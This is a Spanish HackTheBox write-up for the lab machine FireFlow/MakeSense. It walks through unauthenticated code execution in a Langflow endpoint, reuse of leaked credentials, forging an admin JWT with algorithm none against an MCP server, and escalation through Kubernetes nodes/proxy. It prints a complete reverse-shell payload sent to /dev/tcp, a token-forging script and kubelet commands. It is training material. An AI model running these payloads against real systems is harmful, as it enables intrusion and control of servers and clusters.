

FireFlow (también conocida como MakeSense) es una máquina de HackTheBox que combina explotación web, filtrado de credenciales, abuso de JWT con algoritmo none, y escalada de privilegios en un clúster Kubernetes. A continuación documentamos cada fase, desde el reconocimiento hasta la captura de ambas flags.
Escaneo inicial con nmap para identificar servicios:
nmap -sC -sV -p- -oN nmap_10.129.244.214 10.129.244.214Puertos relevantes:
fireflow.htb
El certificado SSL revela fireflow.htb y *.fireflow.htb, lo que indica
la existencia de subdominios. La página principal muestra un agente NFAI con un enlace a
https://flow.fireflow.htb/playground/....
Se detecta una vulnerabilidad que permite ejecución remota de código sin autenticación en el endpoint
/api/v1/build_public_tmp/.../flow. El único requisito es conocer un flow_id
válido, que se filtró en la página principal.
Payload usado (reverse shell a nuestra máquina):
curl -sk -X POST 'https://flow.fireflow.htb/api/v1/build_public_tmp/7d84d636-af65-42e4-ac38-26e867052c25/flow' \
-H 'Content-Type: application/json' \
-b 'client_id=attacker' \
-d '{
"data": {
"nodes": [{
"id": "Exploit-001",
"type": "genericNode",
"position": {"x":0,"y":0},
"data": {
"id": "Exploit-001",
"type": "ExploitComp",
"node": {
"template": {
"code": {
"type": "code",
"required": true,
"show": true,
"multiline": true,
"value": "import os\nos.system(\"bash -c 'bash -i >& /dev/tcp/10.10.15.154/9001 0>&1' &\")"
},
"_type": "Component"
},
"description": "X",
"base_classes": ["Data"],
"display_name": "ExploitComp",
"name": "ExploitComp",
"frozen": false,
"outputs": [{"types":["Data"],"selected":"Data","name":"o","display_name":"O","method":"r","value":"__UNDEFINED__","cache":true,"allows_loop":false,"tool_mode":false,"hidden":null,"required_inputs":null,"group_outputs":false}],
"field_order": ["code"],
"beta": false,
"edited": false
}
}
}],
"edges": []
}
}'
Con un listener activo (nc -lvnp 9001) obtenemos una shell como www-data.
Dentro del sistema, encontramos el archivo de entorno de Langflow en /etc/langflow/.env:
LANGFLOW_SUPERUSER=langflow
LANGFLOW_SUPERUSER_PASSWORD=<PASSWORD>
Además, el archivo /etc/passwd muestra el usuario nightfall.
Probamos la contraseña filtrada contra la cuenta local y funciona:
ssh nightfall@fireflow.htb
Password: <PASSWORD>Con esto obtenemos la primera flag:
En el home de nightfall encontramos ~/.mcp/config.json:
{
"server": "http://10.129.244.214:30080",
"status_endpoint": "/api/v1/version",
"user": "langflow-bot",
"password": "<PASSWORD>"
}
El servidor MCP usa JWT y soporta el algoritmo none. Generamos un token malicioso
con rol admin:
# craft.py
import base64, json
def b64url(data):
return base64.urlsafe_b64encode(data).rstrip(b'=').decode()
header = b64url(json.dumps({"alg":"none","typ":"JWT"}).encode())
payload = b64url(json.dumps({"sub":"attacker","role":"admin"}).encode())
token = f"{header}.{payload}."
print(token)
Con el token ADMIN_JWT registramos una herramienta maliciosa llamada shell
que ejecuta una reverse shell. Luego invocamos la herramienta:
curl -s -X POST http://10.129.244.214:30080/mcp \
-H 'Content-Type: application/json' \
-H "Authorization: Bearer $ADMIN_JWT" \
-d '{"jsonrpc":"2.0","id":4,"method":"tools/call","params":{"name":"shell","arguments":{}}}'
Obtenemos una shell como el usuario mcp dentro de un pod de Kubernetes.
Desde el pod verificamos que estamos dentro de un clúster y tenemos el token de la cuenta de servicio. Consultamos nuestros permisos:
curl -sk -X POST "$API/apis/authorization.k8s.io/v1/selfsubjectrulesreviews" \
-H "Authorization: Bearer $TOKEN" \
-H "Content-Type: application/json" \
-d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"default"}}'
Vemos que tenemos permiso nodes/proxy, lo que permite ejecutar comandos en cualquier pod
a través del kubelet. Enumeramos pods y encontramos uno privilegiado con el sistema de archivos del host montado:
monitoring/prometheus-prometheus-node-exporter-nmntq
container: node-exporter
hostPaths: ['/proc', '/sys', '/']
Usando el permiso nodes/proxy y WebSockets, ejecutamos comandos en ese pod. Creamos un script
kube_exec.py que se conecta al kubelet y nos permite leer el sistema de archivos del host.
python3 kube_exec.py "cat /host/root/root/root.txt"Obtenemos la segunda flag:
nonenodes/proxyLa máquina FireFlow / MakeSense demuestra la importancia de:
none.nodes/proxy a pods no privilegiados).